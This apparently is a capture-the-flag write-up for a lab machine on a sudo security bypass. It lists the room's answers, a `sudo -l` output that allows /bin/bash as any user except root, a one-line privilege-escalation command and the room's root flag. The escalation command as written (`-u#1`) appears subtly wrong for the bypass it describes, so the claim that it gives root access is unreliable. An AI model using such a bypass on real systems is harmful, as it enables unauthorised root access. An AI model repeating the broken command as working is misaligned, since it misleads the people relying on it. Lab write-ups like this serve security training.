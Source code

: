 # Machine NAME : Sudo Security Bypass
# Machine IP : 10.10.153.192

***TASK 1: Deploy!***

***TASK 2: Secuiry Bypass***

1.What command are you allowed to run with sudo? <br>
/bin/bash <br>

2.What is the flag in /root/root.txt? <br>
- following this : <br>
    tryhackme@sudo-privesc:/bin$ sudo -l <br>
    Matching Defaults entries for tryhackme on sudo-privesc: <br>
    env_reset, mail_badpass, <br>

    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/ <br>
    bin\:/sbin\:/bin\:/snap/bin <br>
    
    User tryhackme may run the following commands on sudo-privesc: <br>
    &nbsp;&nbsp;(ALL, !root) NOPASSWD: /bin/bash <br>

***Privilage Escalate Command this ! <br>***
&nbsp; ***sudo -u#1 /bin/bash <br>***

root flag : THM{l33t_s3cur1ty_bypass}